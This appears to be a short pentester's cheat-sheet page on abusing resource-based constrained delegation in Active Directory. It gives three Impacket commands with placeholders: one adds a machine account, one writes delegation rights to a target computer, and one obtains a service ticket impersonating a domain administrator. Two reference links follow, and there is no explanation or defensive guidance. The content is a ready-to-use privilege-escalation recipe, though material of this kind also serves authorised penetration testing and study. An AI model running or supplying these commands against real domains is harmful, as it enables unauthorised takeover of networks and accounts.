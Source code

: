 # Unix Shell

## 01 - Impacket

TODO: Fill this info

```
$ addcomputer.py -computer-name "<computer_name>$" -computer-pass "<password>" -dc-ip <domain_controller_IP> <domain>/<username>:<password>

$ rbcd.py -delegate-from "<computer_name>$" -delegate-to "<target_computer_name>$" -dc-ip <domain_controller_IP> -action 'write' <domain>/<username>:<password>

$ getST.py -spn 'cifs/<FQDN>' -impersonate '<target_domain_admin_user>' -dc-ip <domain_controller_IP> <domain>/<username>:<password>
```

---
## References

- [Pentester's Promiscous Notebook: Resource-based Constrained](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/kerberos/delegation-abuse/rbcd)

- [Hacking Articles: Resource Based Constrained Delegation](https://www.hackingarticles.in/domain-escalation-resource-based-constrained-delegation/)